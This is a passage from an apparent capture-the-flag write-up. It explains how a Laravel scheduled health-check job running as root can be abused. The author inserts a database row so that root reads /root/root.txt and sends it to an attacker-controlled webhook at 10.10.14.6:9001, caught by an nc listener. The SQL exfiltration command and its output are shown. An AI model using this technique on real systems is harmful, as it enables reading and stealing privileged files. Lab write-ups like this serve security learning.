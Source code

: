             foreach ($tasks as $task) {

                $frequency = $task->frequency;

                $schedule->call(function () use ($task) {
                    /*  Run your task here */
                    HealthChecker::check($task->webhookUrl, $task->monitoredUrl, $task->onlyError);
                    Log::info($task->id . ' ' . \Carbon\Carbon::now());
                })->cron($frequency);
            }
        }



It's fetching the tasks from the DB, and then calling
`HealthChecker::check` on each.

### File Read as root

#### Strategy

Every minute, the root is going to pull all the rows from the `tasks`
table and try to `file_get_contents` each. If `onlyError` is set to
False, then it will send the contents to the webook in the DB.

If I can write to the DB, I can skip the URL validation, and have root
read files and exfil them to me.

#### Flag

I'll test this by trying to read the flag. I'll have `nc` listen on
9001. I'll add a row to the `tasks` table with my host port 9001 as the
webhook URL, and `root.txt` as the URL to monitor:



    mysql> insert into tasks (id, webhookUrl, onlyError, monitoredUrl, frequency) values ('223', 'http://10.10.14.6:9001/exfil', 0, '/root/root.txt', '* * * * *');
    Query OK, 1 row affected (0.00 sec)



It yells at me if I don't give it an ID, so I'll make an arbitrary one.

It looks good:



    mysql> select * from tasks;                                                                                                                
    +-----+------------------------------+-----------+----------------+-----------+------------+------------+
    | id  | webhookUrl                   | onlyError | monitoredUrl   | frequency | created_at | updated_at |
    +-----+------------------------------+-----------+----------------+-----------+------------+------------+
    | 223 | http://10.10.14.6:9001/exfil |         0 | /root/root.txt | * * * * * | NULL       | NULL       |
    +-----+------------------------------+-----------+----------------+-----------+------------+------------+
    1 row in set (0.00 sec)

